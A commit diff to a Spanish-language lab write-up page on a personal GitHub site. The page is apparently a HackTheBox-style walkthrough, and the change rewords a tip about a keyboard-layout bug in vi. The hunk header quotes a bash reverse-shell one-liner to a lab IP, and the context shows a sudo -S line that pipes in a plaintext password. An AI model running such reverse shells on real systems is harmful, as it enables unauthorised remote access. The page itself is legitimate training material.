

Before and after one commit to IphobiusS/iphobiuss.github.io, a plain HTML site: page vaccine.html in a window 1280 px wide. Shown: the part 6465-7414 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/vaccine.html
+++ b/vaccine.html
@@ -372,7 +372,7 @@ bash -c 'bash -i &gt;&amp; /dev/tcp/10.10.14.33/4444 0&gt;&amp;1'</pre>
     <p class="f">Si <code class="ic">sudo</code> se queja de <code class="ic">a terminal is required to read the password</code>, puedes pasarle la contraseña por la entrada estándar con <code class="ic">-S</code> (aunque para un comando interactivo como vi igual necesitarás TTY):</p>
     <pre><span class="k">echo</span> 'P@s5w0rd!' | <span class="k">sudo</span> -S -l</pre>
 
-    <div class="warn"><b>EL BUG MÁS TONTO Y REAL: EL TECLADO</b>Dentro de vi, escribir <span class="mono">:</span> no hacía nada. La causa no era técnica: el <b>layout del teclado</b> de Kali no coincidía con el teclado físico, así que la tecla de los dos puntos producía otro carácter. Se diagnostica probando teclas o se arregla de raíz con <span class="mono">setxkbmap latam</span> (o <span class="mono">es</span>). Cuando algo "imposible" pasa, sospecha también de lo tonto.</div>
+    <div class="warn"><b>EL BUG MÁS TONTO Y REAL: EL TECLADO</b>Dentro de vi, la tecla que abre los comandos del editor (la de los dos puntos) no producía nada al pulsarla. La causa no era técnica: el layout del teclado de Kali no coincidía con el teclado físico, así que esa tecla escribía otro carácter. Se diagnostica probando teclas o se arregla de raíz con <span class="mono">setxkbmap latam</span> (o <span class="mono">es</span>). Cuando algo "imposible" pasa, sospecha también de lo tonto.</div>
   </div>
 </section>
 
```
